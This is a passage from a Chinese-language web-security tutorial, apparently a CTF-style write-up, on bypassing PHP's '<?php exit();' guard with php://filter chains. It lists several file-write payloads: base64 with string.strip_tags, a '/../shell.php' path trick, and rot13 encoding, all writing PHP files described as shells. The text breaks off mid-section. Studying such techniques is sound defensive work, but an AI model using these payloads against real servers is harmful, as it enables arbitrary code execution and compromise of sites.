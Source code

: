 	或
	
	content=php://filter/convert.base64-decode/resource=PD9waHAgcGhwaW5mbygpOz8+.php


进行拼接之后就是 `<?php exit();php://filter/convert.base64-decode/resource=PD9waHAgcGhwaW5mbygpOz8+.php` 然后会对其进行一次整体的 `base64-decode` 。从而分解掉死亡代码，

但是无法生成content；虽然文件创建成功，但是就是无法生成content。问题在于resource 后边的  `=`；

‘=’在base64中的作用是填充，也就是以为着结束；在‘=’的后面是不允许有任何其他字符的否则会报错，

![0KR52n.png](https://s1.ax1x.com/2020/10/01/0KR52n.png)

![0KR7rV.png](https://s1.ax1x.com/2020/10/01/0KR7rV.png)


这里因为是由于‘=’从而使得我们写入content不成功，那么我们可以想个方法去掉等号即可，

#### 去掉等号之过滤器嵌套base64

payload:

	content=php://filter/string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2B.php

![0KI8vd.png](https://s1.ax1x.com/2020/10/01/0KI8vd.png)

发现可以生成文件，并且可以看到我们已经成功写入了shell；但是文件名确实有问题，当我们在浏览器访问的时候，会出现访问不到的问题，这里是因为引号的问题；那么如何避免，我们可以使用伪目录的方法，进行变相的绕过去；

payoad:

	content=php://filter/string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2B/../shell.php

我们将前面的一串base64字符和闭合的符号整体看作一个目录，虽然没有，但是我们后面重新撤回了原目录，生成shell.php文件；从而就可以生成正常的文件名.

#### 去掉等号之直接对内容进行变性另类base64

其实这种也是借助于过滤器，但是原理并不是和之前的原理一样，之前的原理即是：闭合原本的死亡代码，然后在进行过滤器过滤掉内容中的html标签，从而对剩下的内容进行base64解码。但是这种方法却不是如此，payload如下：

	php://filter/<?|string.strip_tags|convert.base64-decode/resource=?>PD9waHAgcGhwaW5mbygpOz8%2B/../shell.php

这种payload的攻击原理即是首先直接在内容时，就将我们base64遇到的‘=’这个问题直接写在<? ?>中进行过滤掉，然后base64-decode再对原本内容的<?php exit();进行转码，从而达到分解死亡代码的效果

#### rot13 绕过

尽管base64比较特别，但是并不是所有的编码都受限于‘=’，这里可以采用rot13编码即可；

payload

	content=php://filter/write=string.rot13|<?cuc cucvasb();?>|/resource=shell.php
	
	content=php://filter/write=string.rot13/resource=<?cuc cucvasb();?>/../shell.php


生成文件内容：
